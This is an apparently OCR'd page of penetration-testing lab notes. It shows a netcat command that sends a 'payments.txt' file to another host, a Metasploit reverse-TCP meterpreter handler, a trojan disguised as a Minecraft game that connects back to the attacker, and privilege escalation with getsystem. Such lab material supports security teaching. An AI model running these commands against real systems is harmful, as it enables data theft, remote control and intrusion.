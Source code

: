 net localgroup administrators

nc -w 5 -nv 192.168.6.128 9999 \< C:\secret\payments.txt

\# Server2016:

Add data to payments.txt

Kali: Terminal 2

(Repeat last command)

\# Kali:

Check payments.txt for new data.

Both:

Ctrl+c

PIVOTING ATTACK

On Kali:

\# Prepare a handler to receive the malware connection on port 80

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

show options

set lhost 172.16.0.200

set lport 80

show options

run

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--

\# On XP-PRO:

Double-click minecraft-mini.exe to \"play\" the game

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--

\# On Kali:

Verify that the infected game connected to your handler,

and that you have a meterpreter\> prompt

\# Determine the internal subnet ID

\# At the meterpreter\> prompt enter:

getuid

getsystem

getuid
